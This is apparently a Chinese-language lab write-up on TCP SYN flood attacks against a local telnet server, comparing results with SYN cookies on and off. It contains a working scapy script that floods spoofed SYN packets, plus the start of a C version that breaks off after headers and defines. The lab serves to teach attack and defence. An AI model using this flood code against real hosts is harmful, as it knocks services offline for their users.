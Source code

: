 ## 情况2 开启SYN cookie

`sysctl -w net.ipv4.tcp_syncookies=1`

![image-20220410194732075](readme.assets/image-20220410194732075.png)

### 攻击中

user可以通过telnet 连接server 如图

![image-20220410194755390](readme.assets/image-20220410194755390.png)

# scapy tcp synflood

## 关闭SYN cookie

![image-20220408203956085](readme.assets/image-20220408203956085.png)

scapy脚本

```python
#!/usr/bin/python3
from scapy.all import IP, TCP, send
from ipaddress import IPv4Address
from random import getrandbits

a = IP(dst="172.17.0.3")
b = TCP(sport=1551, dport=23, seq=1551, flags='S')
pkt = a/b

while True:
    pkt['IP'].src = str(IPv4Address(getrandbits(32)))
    send(pkt, verbose = 0)

```

telnet连不上

![image-20220410194935227](readme.assets/image-20220410194935227.png)

# c tcp synflood

## 关闭SYN cookie

```C
#include <unistd.h>
#include <stdio.h>
#include <stdlib.h>
#include <time.h>
#include <string.h>
#include <sys/socket.h>
#include <netinet/ip.h>
#include <arpa/inet.h>

#include "myheader.h"

#define DEST_IP    "172.17.0.3"
#define DEST_PORT  23  // Attack the web server
#define PACKET_LEN 1500

unsigned short calculate_tcp_checksum(struct ipheader *ip);
```